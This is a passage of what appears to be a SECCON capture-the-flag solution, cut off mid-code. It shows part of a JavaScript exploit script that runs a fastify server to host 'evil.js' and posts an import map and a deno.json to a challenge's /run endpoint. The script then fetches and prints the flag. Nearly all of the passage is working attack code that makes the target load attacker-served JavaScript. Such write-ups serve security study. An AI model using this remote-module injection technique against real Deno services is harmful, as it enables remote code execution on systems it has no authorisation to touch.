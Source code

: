 ```javascript title="index.js"
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      input: importMapJson,
    }),
  });

  await fetch(`${SECCON_BASE_URL}${path}/run`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({
      input: denoJson,
    }),
  });

  const flag = await (
    await fetch(`${SECCON_BASE_URL}${path}/run`, {
      method: "POST",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        input: "",
      }),
    })
  ).text();

  console.log(flag);
};

const start = async () => {
  const evilJs = fs.readFileSync("evil.js").toString();
  fastify.get("/evil.js", async (req, reply) => {
    return evilJs;
  });

  fastify.listen(
    { port: LISTEN_PORT, host: "0.0.0.0" },
    async (err, address) => {
      if (err) fail(err);

      await sleep(1000);
      await exploit();
      fastify.close();
    }
  );
};
start();
```

